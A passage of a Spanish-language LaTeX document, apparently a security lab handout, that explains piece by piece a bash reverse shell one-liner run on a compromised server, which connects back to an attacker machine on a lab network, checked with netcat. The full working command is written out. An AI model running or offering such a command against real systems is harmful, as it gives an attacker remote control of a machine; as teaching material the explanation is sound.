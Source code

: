 \begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

Este comando normalmente es ejecutado por un atacante en un servidor comprometido.
Debido a que esta línea es un tanto engorrosa, en los siguientes parráfos darémos una explicación detallada de su funcionamiento. 


\begin{itemize}

\item \texttt{"/bin/bash -i"}: El parámetro \texttt{i} es quiere decir que la shell será una shell interactiva, esto significa que nos permitirá interactuar para enviar y recibir información usando la shell.

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: Esto hace que el (\texttt{stdout}) (standard output) de la shell sea redirigido hacia la conexión TCP establecida con la IP del atacante \texttt{10.0.2.6} en el puerto \texttt{stdout} es el  \texttt{9090}. En sistemas \unix, el número del descriptor de archivo (file descriptor) del \texttt{stdout} es el \texttt{1}

\item \texttt{"0<\&1"}: El descriptor de archivo (file descriptor) cuyo número es \texttt{0} representa el standard input (\texttt{stdin}). Esta opción le indica al sistema que use el standard output como standard input.
Dado que el \texttt{stdout} está siendo redirigido hacia una conexión TCP, esta opción le indica al programa shell que obtendrá su entrada usando la misma conexión.

\item \texttt{"2>\&1"}: El descriptor de archivo (file descriptor) cuyo número es cuyo número es \texttt{2} representa el standard error \texttt{stderr}.
Esto hace que cualquier error que pueda ocurrir sea redirigido al \texttt{stdout} que es la conexión TCP.

\end{itemize}

Para concluir, el comando  \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"}  ejecuta una shell \texttt{bash} en la máquina del servidor cuyo input viene de una conexión TCP y su output sale por la misma conexión TCP.
En nuestro experimento al ejecutar la shell \texttt{bash} en el servidor \texttt{10.0.2.5} este establecerá una conexión reversa hacia  \texttt{10.0.2.6}. Esto puede ser verificado por medio del mensaje \texttt{"Connection from 10.0.2.5 ..."} mostrado en \texttt{netcat}.




